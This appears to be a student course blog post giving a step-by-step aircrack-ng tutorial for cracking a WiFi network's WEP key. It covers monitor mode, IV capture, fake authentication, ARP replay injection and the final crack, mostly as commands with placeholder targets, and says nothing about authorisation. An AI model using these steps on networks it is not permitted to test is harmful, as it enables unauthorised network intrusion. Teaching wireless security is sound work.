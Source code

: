 ```yaml
---
layout: post
title: "Blog 8"
description: "CIT 480 blog 8"
categories: [uncategorized]
tags: [random, jekyll]
redirect_from:
  - /2019/11/2/
---
```


# How to hack WEP Key?

__Hardware/Software Requirements__

* ALFA Network AWUS036AC WiFi Adapter.
* Kali Linux.

__Step 1: Install WiFi Adapter Driver on Kali Linux__

* Driver on Alfa Network’s Website will probably not work on Kali Linux. So perform steps below.
* apt-get update
* apt-get upgrade
* apt-get install realtek-rtl88xxau-dkms

__Step 2: Set WiFi Adapter to Monitor Mode__

To check if adapter is present

* iwconfig

To put WiFi Adapter in monitor mode.

* airmon-ng start wlan0

If processes are present then kill the processes.

* airmon-ng check kill

Run Again

* airmon-ng start wlan0

Confirm WiFi Adapter is in Monitor Mode

* iwconfig

__Step 3: Scan Network__

Find your target

* Airodump-ng wlan0

Copy BSSID of Target AP

Remember channel number

__Step 4: Start a IV Capture on Target AP__

* Open New Terminal
* airodump-ng -c <channel-number> --bssid <AP BSSID> -w <file_name> -i wlan0
	* -c to specify AP’s broadcasting channel
	* --bssid to specify MAC of Target AP
	* -w to specify where to save your initialization vectors
	* -i to save initialization vectors only and discard all other data

__Step 5: Fake Authentication__

WiFi Adapter needs to be associated with AP to be able to inject packets later. 

* Open New Terminal
* aireplay-ng -1 0 -e <SSID of Target AP> -a <BSSID of Target AP> wlan0
	* -1 means fake authentication
	* 0 means reassociation timing in seconds
	* -e to specify name of the network
	* -a is the access point MAC address

__Step 7: Packet Injection__

* Open New Terminal
* aireplay-ng -3 -b <AP MAC> wlan0
	* -3 ARP request replay
	* -b to specify AP MAC

__Step 8: Crack WEP Key__
#Collect enough IVs
* Open New Terminal
* aircrack-ng <file_name.cap>


























